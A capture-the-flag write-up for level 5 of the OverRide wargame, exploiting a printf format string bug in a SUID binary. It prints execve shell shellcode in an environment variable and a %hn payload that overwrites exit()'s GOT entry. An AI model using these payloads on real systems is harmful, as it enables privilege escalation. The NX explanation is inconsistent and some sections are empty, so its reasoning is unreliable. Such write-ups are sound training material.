 # Level 5

## Vulnerability



## Context

We find a binary with owner ```level05``` and SUID.
```
level05@OverRide:~$ ls -l
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

When run ...!!!!!
```
level05@OverRide:~$ ./level05
hello
hello
```

## Solution

### main() overview

Let's take a deeper look at the program. See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level05/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

This program is a basic ```tolower()```, which is of little interest to us. 

However we do see a call to ```printf()```, which is vulnerable to string format exploits. 

We also see a call to ```exit()```.

### Build exploit

Let's start by checking our buffer position with a printf() string format exploit.
We can see our buffer "AAAA" in the 10th position on the stack as 61616161.
```
level05@OverRide:~$ python -c 'print "AAAA"+" %x"*12' | ./level05
aaaa 64 f7fcfac0 f7ec3af9 ffffd69f ffffd69e 0 ffffffff ffffd724 f7fdb000 61616161 20782520 25207825
```

Unfortunately, we see the stack is non-executable. 

We can overflow the buffer, but we can't overwrite the EIP with an address (like ```system("/bin/sh")```) in the stack because it won't execute.
```
level05@OverRide:~$ dmesg | grep "Execute Disable"
[    0.000000] NX (Execute Disable) protection: active
```

Instead, we will use [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php).
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
We will prefix the shellcode with a 100 byte NOP slide, and then store it all in an environment variable. 
```
level05@OverRide:~$ export SHELLCODE=`python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

Let's find the address of our malicious environment variable. 
```
(gdb) break *main+4
Breakpoint 1 at 0x8048448
(gdb) r
[...]
(gdb) x/200s environ
0xffffd806:	 "/home/users/level05/level05"
0xffffd822:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
0xffffd8a8:	 "SHELL=/bin/bash"
```
Our malicious shellcode is at ```0xffffd822```. 

Note: we want to move past the first 10 bytes "SHELLCODE=" and into your NOP slide... so let's make the address of our shellcode ```0xffffd822 + 16 bytes -> 0xffffd832```.

We are going to insert this malicious code using a ```printf()``` format string attack. 

Unfortunately, ```0xffffd832``` is too large to pass to ```printf()``` in decimal with a ```%d``` format (it overflows maxint).
```
2147483647 <- maximum size of int
4294957106 <- address of shellcode (in decimal)
```
We can, however, pass it in decimal as 2 short ints (written on 2 bytes each). 
Note: reverse order for little endian! 
```
0xffffd832
0xd832 -> 55346
0xffff -> 65535
```

We are going to use our format string to overwrite the call to ```exit()```. 
The GOT address of ```exit()``` is ```0x080497e0```.
```
level05@OverRide:~$ gdb -q level05
(gdb) info function exit
[...]
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```
We will also have to split the address of ```exit()``` in two, to accomodate our hefty 2-part shellcode address. 

Let's sum it all up! 

So our attack takes place in 2 steps:
- malicious environment variable 
```
"NOP slide [100 bytes] + call to open a shell"
```

- format string attack
  - exit GOT address, split into two [4 byte] parts
  - shellcode address in decimal, split into two [4 byte] parts
      - ``` 55346 - 8 bytes (of characters already written)``` -> ```55338```
      - ```65535 - 55338 bytes (of characters already written)``` -> ```10197```
  -  ```printf()``` formatting arguments: 
      - ```%10$hn``` for 10th argument, half word/short int [2 bytes]
      - ```%11$hn``` for 11th argument, half word/short int [2 bytes]
```
"exit GOT address [2 first bytes] + exit GOT address [2 last bytes] + shellcode addr [2 bytes] + '%10$hn' + shellcode addr [2 bytes] + '%11$hn'"
```

Let's try it. 
```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55338d%10$hn" + "%10197d%11$hn")'; cat) | ./level05
```

Why we can't just do this (with a %u modifier) is beyond me!
```(python -c 'print "\xe0\x97\x04\x08" + "%4294957094u" + "%10$n"'; cat) | ./level05```

```(python -c 'print "\xe0\x97\x04\x08" + "%4294957098u" + "%10$n"'; cat) | ./level05```


```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55397d%10$hn" + "%10130d%11$hn")'; cat) | ./level05
```


## Recreate Exploited Binary


